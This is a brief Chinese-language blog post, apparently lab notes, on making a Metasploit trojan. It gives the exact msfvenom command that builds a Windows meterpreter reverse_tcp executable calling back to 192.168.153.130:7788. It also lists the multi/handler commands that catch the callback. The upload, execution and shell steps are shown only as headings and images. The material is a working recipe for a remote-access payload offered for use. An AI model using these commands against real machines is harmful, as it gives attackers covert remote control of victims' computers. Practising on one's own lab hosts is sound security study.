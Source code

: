 ```yaml
---
layout: post
title:  MSF木马制作
date: 2021-06-24 17:03 +0900
category: exploiting
---
```

<!-- TOC -->

- [0x0 制作裸奔木马](#0x0-制作裸奔木马)
- [0x1 监听7788端口](#0x1-监听7788端口)
- [0x2 上传木马文件](#0x2-上传木马文件)
- [0x3 执行对应文件](#0x3-执行对应文件)
- [0x4 获取shell](#0x4-获取shell)

<!-- /TOC -->
## 0x0 制作裸奔木马

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.153.130 LPORT=7788 -f exe > /root/test.exe`
![](/images/20210624-1.png)

## 0x1 监听7788端口

```c
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.153.130
set lport 7788
run
```
![](/images/20210624-2.png)

## 0x2 上传木马文件

![](/images/20210624-3.png)


## 0x3 执行对应文件

![](/images/20210624-5.png)
## 0x4 获取shell

![](/images/20210624-4.png)